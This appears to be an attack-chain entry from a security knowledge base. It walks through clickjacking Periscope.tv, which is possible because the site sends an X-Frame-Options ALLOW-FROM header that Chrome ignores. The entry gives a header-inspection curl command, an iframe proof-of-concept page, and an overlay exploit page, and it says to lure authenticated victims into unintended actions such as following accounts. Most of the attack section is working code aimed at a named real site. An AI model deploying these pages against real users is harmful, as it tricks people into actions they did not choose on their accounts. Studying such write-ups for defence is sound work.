

---
tags:
  - clickjacking
  - x-frame-options
  - ui-redressing
  - web-vulnerability
type: attack_chain
tools:
  - '[[tools/OWASP-Clickjacking-Defense-Cheat-Sheet]]'
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-05T00:00:00Z'
procedures:
  - '[[procedures/Inspect-HTTP-Response-Headers-for-X-Frame-Options]]'
  - '[[procedures/Create-Clickjacking-Proof-of-Concept-HTML-File]]'
  - '[[procedures/Demonstrate-Clickjacking-Exploit-with-UI-Overlay]]'
step_count: 3
techniques:
  - '[[Drive-by Compromise]]'
updated_at: '2025-12-14T17:28:12.588Z'
description: >-
  Multi-stage attack chain exploiting clickjacking vulnerability on Periscope.tv
  due to an invalid X-Frame-Options header, allowing UI redressing to trick
  users into unintended actions like following accounts or commenting on
  broadcasts.
skill_level: intermediate
impact_level: high
id: 8fa123bb-dcf3-4d37-91db-43f2a596cc43
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
---
# Clickjacking on Periscope.tv via Unsupported X-Frame-Options Header

Multi-stage attack chain demonstrating a complete attack workflow exploiting clickjacking on Periscope.tv.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/OWASP-Clickjacking-Defense-Cheat-Sheet]]
- Web browser (e.g., Chrome)
- Local web server (e.g., Python's http.server)

### Target Environment

- Target Platform: Web
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Internet access to https://www.periscope.tv/

### Initial Access Requirements

- No credentials required
- Public network access
- No prior access needed

## Detailed Attack Procedures

### Step 1: Inspect Headers
procedure: [[procedures/Inspect-HTTP-Response-Headers-for-X-Frame-Options]]

**Objective**: Identify the X-Frame-Options header misconfiguration on the target site to confirm lack of framing protection in Chrome.

**Instructions**: Use [[commands/curl-fetch-headers]] to retrieve and inspect the HTTP response headers from the target URL:

```bash
curl -I https://www.periscope.tv/
```

Look for the X-Frame-Options header in the output.

**Expected Output**: HTTP headers including 'X-Frame-Options: ALLOW-FROM https://twitter.com/', which is unsupported in Chrome.

**Success Indicators**:
- Header value confirms 'ALLOW-FROM' directive, providing no protection in Chrome
- Site loads without framing restrictions

### Step 2: Create POC
procedure: [[procedures/Create-Clickjacking-Proof-of-Concept-HTML-File]]

**Objective**: Develop a simple HTML file to test if the target site can be framed in an iframe within Chrome.

**Instructions**: Create an HTML file named Clickjacking_Periscope.html with the following content:

```html
<!DOCTYPE html>
<html>
<head><title>Clickjacking POC</title></head>
<body>
<iframe src="https://www.periscope.tv/" width="800" height="600"></iframe>
</body>
</html>
```

Serve the file locally using a simple web server, e.g., `python -m http.server 8000`, and open http://localhost:8000/Clickjacking_Periscope.html in Chrome.

**Expected Output**: The Periscope.tv site loads successfully inside the iframe without blocking.

**Success Indicators**:
- Iframe loads the target site
- No browser error about framing restrictions

### Step 3: Demonstrate Exploit
procedure: [[procedures/Demonstrate-Clickjacking-Exploit-with-UI-Overlay]]

**Objective**: Overlay invisible elements on the framed site to trick an authenticated user into performing actions like following an account.

**Instructions**: Modify the POC HTML to include transparent overlays positioned over clickable elements on the framed site. For example, add a hidden button that aligns with the 'Follow' button on Periscope.tv:

```html
<!DOCTYPE html>
<html>
<head><title>Clickjacking Exploit</title></head>
<body style="margin:0;padding:0;">
<iframe src="https://www.periscope.tv/" width="800" height="600" style="opacity:0.5;"></iframe>
<div style="position:absolute;top:100px;left:200px;width:100px;height:30px;background:transparent;border:1px solid red;" onclick="alert('Tricked click!');"></div>
<!-- Align overlay with target action button -->
</body>
</html>
```

Host the modified HTML, lure a victim to the page while authenticated on Periscope.tv, and capture the tricked action (e.g., follow a test account). Record a video demonstration.

**Expected Output**: Victim's click on the overlay triggers the unintended action on the framed site, such as following an account.

**Success Indicators**:
- Unintended action performed (e.g., account followed)
- Video POC confirms the trick

## Attack Chain Summary

### Key Achievements

1. Confirmed clickjacking vulnerability via header inspection
2. Built and tested a framing POC in Chrome
3. Demonstrated real-world impact with UI redressing leading to state-changing actions

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-05T00:00:00Z*
